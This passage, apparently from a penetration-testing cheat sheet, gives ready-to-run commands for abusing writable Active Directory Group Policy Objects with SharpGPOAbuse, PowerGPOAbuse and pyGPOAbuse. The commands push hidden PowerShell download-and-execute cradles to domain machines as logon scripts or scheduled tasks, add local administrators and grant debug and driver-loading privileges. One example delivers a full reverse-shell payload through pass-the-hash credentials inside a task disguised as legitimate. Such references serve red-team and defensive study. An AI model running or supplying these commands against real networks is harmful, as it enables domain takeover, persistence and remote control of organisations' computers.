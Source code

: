 ```powershell
# Configuring a User or Computer Logon Script
.\SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"

# Configuring a Computer or User Immediate Task
# /!\ Intended to "run once" per GPO refresh, not run once per system
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
.\SharpGPOAbuse.exe --AddComputerTask --GPOName "VULNERABLE_GPO" --Author 'LAB.LOCAL\User' --TaskName "EvilTask" --Arguments  "/c powershell.exe -nop -w hidden -enc BASE64_ENCODED_COMMAND " --Command "cmd.exe" --Force
```

#### Abuse GPO with PowerGPOAbuse

* https://github.com/rootSySdk/PowerGPOAbuse

```ps1
PS> . .\PowerGPOAbuse.ps1

# Adding a localadmin 
PS> Add-LocalAdmin -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'

# Assign a new right 
PS> Add-UserRights -Rights "SeLoadDriverPrivilege","SeDebugPrivilege" -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'

# Adding a New Computer/User script 
PS> Add-ComputerScript/Add-UserScript -ScriptName 'EvilScript' -ScriptContent $(Get-Content evil.ps1) -GPOIdentity 'SuperSecureGPO'

# Create an immediate task 
PS> Add-UserTask/Add-ComputerTask -TaskName 'eviltask' -Command 'powershell.exe /c' -CommandArguments "'$(Get-Content evil.ps1)'" -Author Administrator
```

#### Abuse GPO with pyGPOAbuse

```powershell
$ git clone https://github.com/Hackndo/pyGPOAbuse

# Add john user to local administrators group (Password: H4x00r123..)
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"

# Reverse shell example
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012" \ 
    -powershell \ 
    -command "\$client = New-Object System.Net.Sockets.TCPClient('10.20.0.2',1234);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()" \ 
    -taskname "Completely Legit Task" \
    -description "Dis is legit, pliz no delete" \ 
    -user
```
